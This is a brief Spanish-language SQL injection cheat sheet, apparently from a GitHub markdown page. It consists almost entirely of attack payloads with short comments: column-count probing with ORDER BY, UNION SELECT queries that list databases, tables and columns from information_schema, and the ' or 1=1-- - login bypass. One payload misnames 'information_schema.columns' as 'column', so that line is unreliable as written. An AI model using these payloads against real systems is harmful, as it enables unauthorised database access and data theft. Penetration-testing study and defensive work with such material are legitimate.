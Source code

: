 # SQL Injection

Ver numero de columnas

```
' ORDER BY 1 -- -
```

Introducir informacion una vez sabemos el numero de columnas que hay:

```
' union select 1,2-- -
' union select schema_name from information_schema.schemata limit 0,1 -- - 
  //listar todas las bases de datos existentes {con limit van mostrando las bases de datos 0,1 1º 1,1 2º y asi sucesivamente}
' union select group_concat(schema_name) from information_schema.schemata -- - 
  // listar todas las bases de datos en una linea
' union select group_concat(table_name) from information_schema.tables where table_schema='table'-- - 
// ver tablas de la base de datos
' union select group_concat(column_name) from information_schema.column where table_schema='table' and table_name='table' limit 0,1-- -
// ver columnas de la tabla
```

Validar en un formulario

```
' or 1=1-- -
```
